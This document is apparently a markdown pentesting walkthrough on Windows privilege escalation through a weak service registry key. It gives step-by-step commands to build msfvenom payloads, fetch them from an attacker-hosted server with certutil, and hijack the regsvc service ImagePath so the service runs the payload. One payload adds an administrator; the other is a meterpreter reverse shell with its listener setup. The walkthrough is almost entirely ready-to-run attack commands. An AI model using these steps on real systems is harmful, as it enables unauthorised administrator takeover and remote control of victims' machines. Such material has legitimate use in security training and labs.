








### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

1.  let’s create a binary to Add a User to the Administrators with msfvenom.  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > hackfast.exe`  
    
    
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Now run `net start regsvc` on the target to execute the exploit.  

    

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`
    

### **GENERATING REVERSE SHELL WITH MSFVENOM**

1.  let’s create a reverse shell binary with msfvenom.  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o hackfast.exe`  
    
    
    
2.  Host the binary using Python HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8001/hackfast.exe hackfast.exe`  
    
    
    
3.  change the ImagePath on the regsvc service registry key to point to our malicious executable. We can do this using the following command:  
    `reg add "HKLM\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d c:\temp\hackfast.exe /f`  
    
    

    **NOTE:** we can check if ImagePath set properly with following commands:  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    
    
5.  Now run `net start regsvc` on the target Machine to execute the exploit.  
    
    

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`